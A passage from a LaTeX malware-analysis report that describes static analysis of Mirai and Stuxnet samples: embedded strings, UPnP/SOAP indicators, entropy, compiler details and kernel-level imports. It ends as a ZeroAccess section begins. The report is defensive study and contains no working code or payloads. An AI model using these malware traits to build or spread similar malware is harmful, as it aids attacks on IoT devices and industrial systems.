  
\includegraphics[width=0.9\textwidth]{mirai/network-info-1.png}
  \caption{Network strings embedded in the binary.}
  \label{fig:mirai-network-info}
\end{figure}

\begin{figure}[H] 
  \centering
  
\includegraphics[width=0.9\textwidth]{mirai/weird-url-1.png}
  \caption{Odd URI address located in a GET request.}
  \label{fig:mirai-weird-get}
\end{figure}

\begin{figure}[H] 
  \centering
  
\includegraphics[width=0.9\textwidth]{mirai/ip-address.png}
  \caption{IP address assumed to be the C2 server.}
  \label{fig:mirai-ip-add-1}
\end{figure}

\begin{figure}[H] 
  \centering
  
\includegraphics[width=0.9\textwidth]{mirai/ip-address-2.png}
  \caption{IP address assumed to be the C2 server.}
  \label{fig:mirai-ip-add-2}
\end{figure}

\begin{figure}[H] 
  \centering
  
\includegraphics[width=0.9\textwidth]{mirai/cookie.png}
  \caption{Cookie containing a session ID.}
  \label{fig:mirai-php-cookie}
\end{figure}

The binary contains XML configuration strings (figure~\ref{fig:mirai-remote-host}) such as \texttt{<NewRemoteHost>} and \texttt{<NewProtocol>TCP}. These embedded fields suggest that the malware is preconfigured with connection parameters for its command-and-control (C2) 
server.

The \texttt{SOAPAction} header (seen in figure~\ref{fig:mirai-remote-host}) is  referencing \texttt{http://purenetworks.com/...}. This suggests attempts to exploit or communicate with SOAP IoT devices. This is reinforced by the related string \texttt{SOAPAction: urn:schemas-upnp}, which is part of the Universal Plug and Play (UPnP) protocol. Together, these indicators point to Mirai’s use of UPnP exploitation as a propagation method \cite{upnp}.

\begin{figure}[H] 
  \centering
  
\includegraphics[width=0.9\textwidth]{mirai/remote-host.png}
  \caption{XML configuration string.}
  \label{fig:mirai-remote-host}
\end{figure}

\subsubsection{Entropy}
The entropy score calculated for this sample was approximately 6.2 as seen in figure~\ref{fig:mirai-entropy}. Entropy values near 5.0-6.0 are typical of uncompressed executables suggesting that the binary does not use strong packing or encryption mechanisms. \cite{mirai-entropy}

\begin{figure}[H] 
  \centering
  
\includegraphics[width=0.9\textwidth]{mirai/entropy.png}
  \caption{Entropy of the Mirai binary.}
  \label{fig:mirai-entropy}
\end{figure}

\subsubsection{Compiler Information}
The static analysis revealed that the binary was compiled as an ELF32 executable for Debian Linux using GCC version 3.3.2 as seen in figure~\ref{fig:mirai-compiler}. The use of the ELF32 format indicates that the malware is targeting Linux systems rather than Windows, which is consistent with malware families such as Mirai that propagate through Internet of Things (IoT) devices running embedded Linux.

\begin{figure}[H] 
  \centering
  
\includegraphics[width=0.9\textwidth]{mirai/compiler-info.png}
  \caption{Mirai compiler information.}
  \label{fig:mirai-compiler}
\end{figure}

\subsection{Stuxnet}
\subsubsection{Overview}
Stuxnet is a Windows-based worm that specifically targeted industrial control systems. It is best known for attacking programmable logic controllers used in critical infrastructure.

\subsubsection{Process}
This sample was obtained from theZoo repository \cite{the-zoo} \cite{the-zoo-stuxnet}. To ensure its integrity, the downloaded file’s SHA256 hash was compared against the value provided in the repository, as shown in figure~\ref{fig:stuxnet-sha-conf}. Once verified, the sample was analyzed using Detect It Easy (DIE) \cite{detect-it-easy} to extract static features such as embedded strings, entropy, compiler information, and other metadata. The discussion below outlines the findings from this analysis.

\subsubsection{SHA Hash Confirmation}
\begin{figure}[H] 
  \centering
  
\includegraphics[width=0.9\textwidth]{stuxnet/sha-conf.png}
  \caption{Confirmation that the SHA 256 hash of the download is the same as what was expected.}
  \label{fig:stuxnet-sha-conf}
\end{figure}

\subsubsection{Compiler Information}
The binary was compiled for Windows Vista using Microsoft Visual Studio 2005 in C/C++. This indicates a professional development environment and an older toolchain, consistent with the time when Stuxnet was first discovered (2010). The use of C++ suggests the authors needed the low level control provided by C and C++.

\begin{figure}[H] 
  \centering
  
\includegraphics[width=0.9\textwidth]{stuxnet/compiler-information.png}
  \caption{Stuxnet compiler information.}
  \label{fig:stuxnet-compiler-info}
\end{figure}

\subsubsection{Entropy}
The average entropy value across the file was 5.99, which is close to the range of normal, uncompressed executables (5.0–6.0). This suggests that the binary is not packed or strongly obfuscated, which aligns with Stuxnet’s design as it was meant to blend in as a legitimate Windows component rather than hide behind encryption or packing.

\begin{figure}[H] 
  \centering
  
\includegraphics[width=0.9\textwidth]{stuxnet/entropy.png}
  \caption{Entropy and entropy graph for stuxnet binary.}
  \label{fig:stuxnet-entropy}
\end{figure}

\subsubsection{Embedded Strings}
The binary references \texttt{ntoskrnl.exe}, \texttt{ntkrnlpa.exe}, and 
\texttt{ntdll.dll}, which are core Windows kernel and runtime files. Normal 
applications do not typically reference these directly, but rootkits and worms that 
need privileged access would need to. Their presence suggests that Stuxnet is designed to 
interact with the Windows kernel at a low level.  

Another set of strings, \texttt{/SystemRoot/System32/hal.dll} and \texttt{HAL.dll}, 
point to the hardware abstraction layer. This confirms that the malware is not only 
touching the kernel but also trying to work closely with hardware level operations.  

API calls such as \texttt{ZwQuerySystemInformation} and 
\texttt{ZwAllocateVirtualMemory} are part of the undocumented NT API set. These are 
low level system calls that allow the malware to inspect system state and allocate 
memory outside of normal application boundaries. The reliance on NT system calls suggests that Stuxnet was built to execute tasks at a level normally reserved for the OS kernel.  

Finally, the string \texttt{/DosDevices/GpdDev} suggests an interaction with 
specific devices or drivers. Analysts have tied similar artifacts in Stuxnet to 
its targeting of industrial control systems (ICS), where device interaction 
was needed to reach programmable logic controllers (PLCs).  

Taken together, these embedded strings show that Stuxnet was built to operate 
below the level of ordinary software, manipulating the Windows kernel, hardware 
abstraction layer, and even device drivers. This supports the conclusion that it 
was built to sabotage critical infrastructure rather than act as a typical 
piece of malware.  

\begin{figure}[H] 
  \centering
  
\includegraphics[width=0.9\textwidth]{stuxnet/executable-1.png}
  \caption{Showing the use of ntoskrnl.exe}
  \label{fig:stuxnet-executable-1}
\end{figure}

\begin{figure}[H] 
  \centering
  
\includegraphics[width=0.9\textwidth]{stuxnet/entropy.png}
  \caption{Entropy and entropy graph for stuxnet binary.}
  \label{fig:stuxnet-entropy}
\end{figure}

\begin{figure}[H] 
  \centering
  
\includegraphics[width=0.9\textwidth]{stuxnet/weird-dll.png}
  \caption{Use of hardware abstraction layer DLLs.}
  \label{fig:stuxnet-dll-use}
\end{figure}

\subsubsection{Imports and Sections}
The imports table references \texttt{ntoskrnl.exe} and \texttt{HAL.dll}, reinforcing the evidence that the malware is designed to operate at the kernel level. 

\begin{figure}[H] 
  \centering
  
\includegraphics[width=0.9\textwidth]{stuxnet/imports.png}
  \caption{Imports from the stuxnet binary.}
  \label{fig:stuxnet-imports}
\end{figure}

The file sections included \texttt{.rdata}, \texttt{.INIT}, and \texttt{.rsrc}, which 
are standard in Windows executables.

\begin{figure}[H] 
  \centering
  
\includegraphics[width=0.9\textwidth]{stuxnet/sections.png}
  \caption{Sections from the stuxnet binary.}
  \label{fig:stuxnet-imports}
\end{figure}



\subsection{ZeroAccess}
\subsubsection{Overview}
